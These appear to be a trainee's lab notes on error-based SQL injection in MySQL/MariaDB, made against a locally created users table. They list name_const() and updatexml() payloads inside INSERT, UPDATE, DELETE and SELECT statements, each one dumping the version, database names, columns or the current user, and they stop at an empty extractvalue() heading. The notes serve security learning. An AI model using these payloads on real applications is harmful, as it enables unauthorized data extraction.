 # TRAN CONG DANH - SVTT - Mentor: LUU VAN LAN - SQLi-select-insert-update-delete - Day Started: 09/07/2024.
- Create a db for the lab:
```
Create database newdb;
use newdb
CREATE TABLE users
(
id int(3) NOT NULL AUTO_INCREMENT,
username varchar(20) NOT NULL,
password varchar(20) NOT NULL,
PRIMARY KEY (id)
);
```
- Now let’s insert some sample data into our database. The syntax would be

```
insert into users (id, username, password) values (1, 'Jane', 'Eyre');
```
- Using name_const()
  
Syntax:
```
insert into users (id, username, password) values (1,"*(select*from(select(name_const(version(),1)),name_const(version(),1))a)* ", 'Eyre');
```
- Using updatexml()
  
  * The updatexml() function is an SQL function in MariaDB and MySQL commonly used to perform operations on XML data. However, when used with non-standard parameters or non-XML data, it can cause errors and this error message can sometimes display sensor information such as database version instead of . This is often leveraged in SQL injection attacks to get information from the database.
  
 - Syntax
 
  updatexml(XML_document, XPath_string, new_value)

- Syntax

  *   Select
    
    ```
    SELECT updatexml(1, concat(0x7e, database()), 0); //Dump current db name
    ```
    
    ```
    SELECT updatexml(1, concat(0x7e, (SELECT group_concat(schema_name) FROM information_schema.schemata)), 0);//Dump list of db
    ```
  * Insert:

  ```
    INSERT INTO users (id, username, password) VALUES (3, updatexml(1, concat(0x7e, (version())), 0), 'Eyre');
  ```
  *  Delete:
  ```
    DELETE FROM users WHERE id = 1 OR updatexml(1, concat(0x7e, version()), 0);
    DELETE FROM users WHERE id = 1 OR updatexml(1, '//a', updatexml(1, concat(0x7e, version()), 1))

  ```
  * Update:
  ```
    UPDATE users SET password = 'dummy'
    WHERE id = 2 AND username = 'Nervo' OR updatexml(1, concat(0x7e, version()), 0);  //Statement AND is wrong and updatexml(1, concat(0x7e, version()), 0) is alway dump error -->it True
  ```
  ```
    SET password = (SELECT updatexml(1, concat(0x7e, version()), 0))
        WHERE id = 2 AND username = 'Nervo';
  ```
  ```
    UPDATE users
    SET password = 'dummy'
    WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' AND table_schema     = database())), 0); //Dump list of comlumns
  ```
  ```
    UPDATE users
    SET password = 'dummy'
    WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT user())), 0); // Dump curent user
  ```
- Using extractvalue()


    
    

